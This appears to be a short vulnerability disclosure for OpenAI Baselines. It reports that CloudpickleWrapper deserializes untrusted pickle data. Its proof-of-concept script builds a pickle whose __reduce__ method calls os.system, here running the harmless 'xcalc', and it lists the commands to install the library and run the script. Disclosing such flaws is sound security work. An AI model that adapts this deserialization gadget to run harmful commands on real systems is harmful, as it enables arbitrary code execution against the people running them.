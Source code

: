 # Description
OpenAI Baselines: high-quality implementations of reinforcement learning algorithms 
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
from baselines.common.vec_env import vec_env
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
vec_env.CloudpickleWrapper.__setstate__(dumps,dumps)
```
* `git clone https://github.com/openai/baselines.git`
* `cd baselines`
* `pip install tensorflow==1.14`
* `pip install -e .`
* `python3 exploit.py`
